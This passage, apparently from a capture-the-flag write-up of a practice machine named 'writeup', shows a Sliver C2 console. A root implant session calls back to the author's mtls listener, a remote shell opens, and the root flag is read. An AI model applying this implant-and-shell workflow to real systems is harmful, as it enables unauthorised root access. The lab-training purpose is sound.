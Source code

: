 Alright, I had to do this a few times because it kept disappearing... wondering if that cron job is to blame... hmmm.. anyway, after quickly adding the implant then relogging back into the machine we got our root shell!

``` bash
sliver > jobs

ID  Name  Protocol  Port  
==  ====  ========  ====  
1   mtls  tcp       8888  

sliver > sessions

[*] No sessions 🙁

[*] Session #1 writeup - 10.10.10.138:57952 (writeup) - linux/amd64 - Sat, 24 Jul 2021 21:47:13 CDT

sliver > sessions

ID  Name            Transport  Remote Address      Hostname  Username  Operating System  Last Check-in                  Health                
==  ====            =========  ==============      ========  ========  ================  =============                  ======                
1   writeup  mtls       10.10.10.138:57952  writeup   root      linux/amd64       Sat, 24 Jul 2021 21:47:13 CDT  [ALIVE]  

sliver > use 1

[*] Active session writeup (1)

sliver (writeup) > whoami

root

sliver (writeup) > shell

? This action is bad OPSEC, are you an adult? Yes
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 3368

root@writeup:/# cd
bash: cd: HOME not set
root@writeup:/# cd /root
root@writeup:/root# ls
bin  root.txt
root@writeup:/root# cat root.txt
eeba47f60b48ef92b734f9b6198d7226
root@writeup:/root# cd /opt         
root@writeup:/opt# ls
root@writeup:/opt# ls -al
total 8
drwxr-xr-x  2 root root 4096 Apr 19  2019 .
drwxr-xr-x 22 root root 4096 Apr 19  2019 ..
root@writeup:/opt# cd ..
root@writeup:/# ls
bin   etc	  initrd.img.old  lost+found  opt   run   sys  var
boot  home	  lib		  media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64		  mnt	      root  srv   usr  vmlinuz.old
root@writeup:/# cat root.txt
cat: root.txt: No such file or directory
root@writeup:/# cd 
bash: cd: HOME not set
root@writeup:/# cat /home/jkr/user.txt 
```